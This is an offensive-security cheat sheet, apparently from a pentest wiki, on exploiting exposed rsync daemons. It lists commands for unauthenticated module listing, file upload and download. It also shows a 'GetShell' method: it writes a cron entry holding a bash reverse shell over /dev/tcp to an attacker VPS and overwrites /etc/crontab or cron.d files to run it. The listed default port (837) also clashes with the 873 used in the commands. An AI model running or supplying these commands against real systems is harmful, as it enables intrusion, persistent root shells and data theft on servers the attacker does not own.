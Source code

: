 # Rsync

<details>

<summary>Introduction</summary>

Rsync（Remote Sync）是一种快速、多功能的文件同步工具，用于在本地和远程系统之间同步文件和目录。它通过比较源和目标文件的差异，仅传输发生更改的部分，从而最大程度地减少传输的数据量和时间。Rsync支持加密传输和压缩，使其在安全性和效率方面表现优异。Rsync 主要用于文件备份、数据同步、镜像站点和远程文件传输等。

</details>

<table><thead><tr><th width="178">Name</th><th>Rsync (Remote Sync)</th></tr></thead><tbody><tr><td><strong>Default Port</strong></td><td>837</td></tr><tr><td><strong>GetShell?</strong></td><td>Yes</td></tr><tr><td><strong>Vulnerability</strong></td><td><ul><li>Unauthorized Access (Leak Information)</li><li>File Upload (GetShell)</li><li>File Download</li></ul></td></tr></tbody></table>

## Unauthorized Access

If the rsync service allows unauthorized access, you can use the rsync command to connect.

{% code title="Environment" %}
```bash
HOST=; PORT=873; # TARGET HOST INFO
```
{% endcode %}

{% code title="Connect" %}
```bash
rsync rsync://$HOST:$PORT/
```
{% endcode %}

## File Upload

{% code title="Environment" %}
```bash
HOST=; PORT=873; # TARGET HOST
HOST=; PORT=6789; # YOUR VPS
```
{% endcode %}

{% code title="File Upload" %}
```bash
rsync -av LOCAL_FILE rsync://$HOST:$PORT/src/REMOTE_FILE
```
{% endcode %}

{% code title="Linux crontab GetShell" %}
```bash
# Global crontab (1)
echo "* * * * * root /bin/bash -i >& /dev/tcp/$HOST/$PORT 0>&1" > reverse_shell
rsync -av reverse_shell rsync://$HOST:$PORT/src/etc/cron.d/reverse_shell

# Global crontab (2) The original file will be overwritten
echo "* * * * * root /bin/bash -i >& /dev/tcp/$HOST/$PORT 0>&1" > reverse_shell
rsync -av reverse_shell rsync://$HOST:$PORT/src/etc/crontab

# User crontab. The original file will be overwritten
echo "* * * * * /bin/bash -i >& /dev/tcp/$HOST/$PORT 0>&1" > reverse_shell_root
rsync -av reverse_shell_root rsync://$HOST:$PORT/src/etc/cron.d/var/spool/cron/root
```
{% endcode %}

## File Download

{% code title="Environment" %}
```bash
HOST=; PORT=873; # TARGET HOST
```
{% endcode %}

{% code title="File Download" %}
```bash
rsync -av rsync://$HOST:$PORT/src/REMOTE_FILE LOCAL_FILE
```
{% endcode %}
